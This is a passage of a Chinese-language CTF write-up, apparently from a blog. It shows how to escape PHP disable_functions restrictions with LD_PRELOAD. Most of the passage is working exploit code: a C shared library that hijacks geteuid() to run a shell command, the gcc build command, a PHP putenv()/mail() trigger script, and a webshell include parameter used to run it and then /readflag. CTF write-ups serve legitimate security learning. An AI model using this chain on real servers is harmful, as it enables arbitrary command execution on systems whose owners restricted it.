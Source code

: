 ```cpp
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
 
void payload(){
 
system("ls / -> /var/tmp/flag.txt");
}
 
int geteuid(){
    
    if(getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
    
}
```

```vbnet
gcc -shared -fPIC hack.c -o hack.so
```

然后还需要php 使用putenv() 调用so文件

```php
<?php
putenv("LD_PRELOAD=/var/tmp/hack.so");
mail("","","","");
error_log("",1,"","");
?>
```

然后我们上传到 /var/tmp文件夹中



<img src="https://i-blog.csdnimg.cn/blog_migrate/e3b448b4defd44a0f002d1983cc5c9c1.png" alt="" style="max-height:340px; box-sizing:content-box;" />




然后通过include("/var/tmp/hack.php");来执行php文件

```ruby
?ant=include('/var/tmp/hack.php');
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/cc7f0f9dd5857efd500b8876109e36b4.png" alt="" style="max-height:491px; box-sizing:content-box;" />


然后我们执行 /readflag即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/115789a149e35bdc77efaa284fd97fc3.png" alt="" style="max-height:167px; box-sizing:content-box;" />


自己编写确实事故很多 我们直接用现成的吧

